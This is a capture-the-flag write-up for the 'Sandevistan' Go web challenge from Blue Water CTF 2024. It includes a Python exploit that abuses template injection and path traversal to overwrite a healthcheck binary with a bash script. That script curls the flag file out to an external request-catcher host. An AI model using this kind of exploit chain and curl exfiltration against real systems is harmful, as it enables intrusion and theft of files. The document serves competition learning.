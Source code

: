 ```yaml
---
layout: post
title:  "sandevistan - Blue Water CTF 2024"
date:   2024-10-13 00:00:00 -0400
---
```


https://ctftime.org/event/2479

# Sandevistan (Web)

Go web chall

## Solution

You overwrite a template then you need to find some useful gadget on `user` or `cyberware` to get the flag.
There is a healthcheck function that calls `/bin/true`.
So the idea is to overwrite that with something.
But that doesn't work because the file will start with `ERROR ...` and not run.
`NewError` plus `SerializeErrors` allows us to write to any offset in a file.
So we just do that.

```python
import requests
import urllib


REMOTE = "http://sandevistan.chal.perfect.blue:28418/"

# create user
res = requests.post(
    REMOTE + "user",
    data="username=xad",
)

bin = (
    """{{ .NewError "asdsadasd" "/bin/true" }}
rs -> {{ range $index, $value := .Errors }}{{ $index }} - {{ $value }}\n{{ end }}
alize -> {{ .SerializeErrors "#!/bin/bash\\ncurl https://lalalalalallalala.requestcatcher.com/ -d @/flag\\n" 0 0 }}
thcheck ->  {{ .UserHealthcheck }}"""
    + " " * 2000
)
bin = urllib.parse.quote_plus(bin)
res = requests.post(
    REMOTE + "cyberware",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data=f"username=../tmpl/user.html&name={bin}",
)

# get user, new template
res = requests.get(
    REMOTE + "user",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data="username=xad",
)
```

## Flag
`bwctf{YoU_kNoW_yOu_d1dnt_l0s3_Ur_53Lf-coNtR0L._LEt'5_start_at_the_r4inB0w}`

shafouz - 2024/10/13
